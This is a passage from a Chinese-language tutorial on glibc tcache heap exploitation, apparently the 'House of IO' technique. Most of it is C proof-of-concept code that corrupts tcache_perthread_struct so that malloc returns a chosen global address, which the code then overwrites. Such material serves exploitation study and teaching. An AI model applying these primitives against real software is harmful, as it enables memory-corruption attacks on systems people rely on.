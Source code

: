 ```c

        int *v = malloc(0x15);// 获得victim变量所在的堆块

        *v = 2; // 进行修改
        
        printf("%d\n", victim);
        return 0;
}
```

上述demo还是需要泄露得到tcache_perthread_struct结构体的地址，以下的demo不需要：

[houseofstructuredio.c](https://github.com/Ruia-ruia/Exploits/blob/master/houseofstructuredio.c)

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long victim = 1;

typedef struct hi {
        char *a;
        char *b;
};

int main()
{
        long int *a, *b, *c;
        struct hi *ptr = malloc(sizeof(ptr));

        ptr->a = malloc(10);
        ptr->b = malloc(10);

        free(ptr);// 释放ptr堆块，在ptr->b被覆盖为tcache_perthread_struct结构体的地址
        free(ptr->b);// 释放tcache_perthread_struct结构
        
        a = malloc(0x285);// 重新申请得到tcache_perthread_struct结构
        *a = 2; //修改counts[0]为2

        long int *z = (char *)a + 0x80; // 下面操作同上
        *z = &victim; 
        int *v = malloc(0x15);
        *v = 2; 
        
        printf("%d\n", victim);

        return 0;
}
```

另一个类似的demo，只是不通过释放再重新申请得到tcache_perthread_struct结构体，而是直接修改tcache_perthread_struct结构体:

[houseofiostructuaf.c](https://github.com/Ruia-ruia/Exploits/blob/master/houseofiostructuaf.c)
